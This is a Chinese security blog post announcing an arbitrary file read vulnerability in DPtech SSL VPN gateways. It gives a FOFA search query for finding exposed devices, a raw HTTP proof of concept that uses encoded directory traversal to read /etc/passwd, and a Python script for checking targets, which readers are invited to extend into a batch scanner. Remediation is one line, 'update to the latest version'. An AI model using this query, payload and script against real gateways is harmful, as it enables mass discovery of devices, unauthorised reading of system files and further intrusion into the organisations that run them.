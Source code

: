 #  安全情报，DPTech VPN存在任意文件读取漏洞！！   
原创 Ax  极星信安   2023-11-26 22:03  
  
**声明：**该公众号大部分文章来自作者日常学习笔记，也有部分文章是经过作者授权和其他公众号白名单转载，禁止私自转载，如需转载，请联系作者！！！！  
  
请勿利用文章内的相关技术从事非法测试，如因此产生的一切不良后果与文章作者和本公众号无关！！！！！  
  
**漏洞介绍**  
  
DPtech  
是在网络、安全及应用交付领域集研发、生产、销售于一体的高科技企业。DPtech VPN智能安全网关是迪普科技面向广域互联应用场景推出的专业安全网关产品，集成了IPSec、SSL、L2TP、GRE等多种VPN技术，支持国密算法，实现分支机构、移动办公人员的统一安全接入，提供内部业务跨互联网的安全访问。  
  
**影响版本**  
```
DPTech VPN 
```  
  
**漏洞情报**  
  
**fofa语句**  
```
app="DPtech-SSLVPN"
```  
  
**Poc**  
```
GET /..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
Connection: Keep-Alive
```  
  
**Poc验证工具**  
  
这里给个基础的demo，大佬们自己改成批量就可以了。  
```
import requests

# 输入目标IP和URL路径
target_ip = "your_target_ip"
url_path = "/..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd"

# 构建完整的URL
url = f"http://{target_ip}{url_path}"

# 定义请求头
headers = {
    "User-Agent": "Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)",
    "Accept": "*/*",
    "Connection": "Keep-Alive",
}

# 发送 GET 请求
response = requests.get(url, headers=headers)

# 检查响应状态码
if response.status_code == 200:
    print("验证成功")
else:
    print("验证失败")

```  
  
**修复建议**  
```
建议及时更新至最新版本！
```  
  
**关注我们**  
  
  
  

